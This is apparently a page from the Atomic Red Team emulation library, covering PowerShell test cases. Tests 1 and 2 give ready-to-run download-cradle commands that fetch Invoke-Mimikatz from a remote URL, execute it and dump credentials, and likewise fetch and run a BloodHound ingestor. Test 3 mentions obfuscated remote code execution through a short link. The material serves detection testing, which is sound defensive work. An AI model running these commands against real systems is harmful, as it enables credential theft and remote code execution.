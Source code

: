 - [Atomic Test #7 - Powershell MsXml COM object](#atomic-test-7---powershell-msxml-com-object)

- [Atomic Test #8 - Powershell XML requests](#atomic-test-8---powershell-xml-requests)

- [Atomic Test #9 - Powershell invoke mshta.exe download](#atomic-test-9---powershell-invoke-mshtaexe-download)

- [Atomic Test #10 - Powershell Invoke-DownloadCradle](#atomic-test-10---powershell-invoke-downloadcradle)


<br/>

## Atomic Test #1 - Mimikatz
Download Mimikatz and dump credentials

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| mimurl | Mimikatz url | url | https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1|

#### Run it with `command_prompt`!
```
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
```
<br/>
<br/>

## Atomic Test #2 - BloodHound
Download Bloodhound and run it

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| bloodurl | BloodHound URL | url | https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/BloodHound_Old.ps1|

#### Run it with `command_prompt`!
```
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{bloodurl}'); Get-BloodHoundData"
```
<br/>
<br/>

## Atomic Test #3 - Obfuscation Tests
Different obfuscated methods to test
Reaches out to bit.ly/L3g1t to stdout: "SUCCESSFULLY EXECUTED POWERSHELL CODE FROM REMOTE LOCATION"
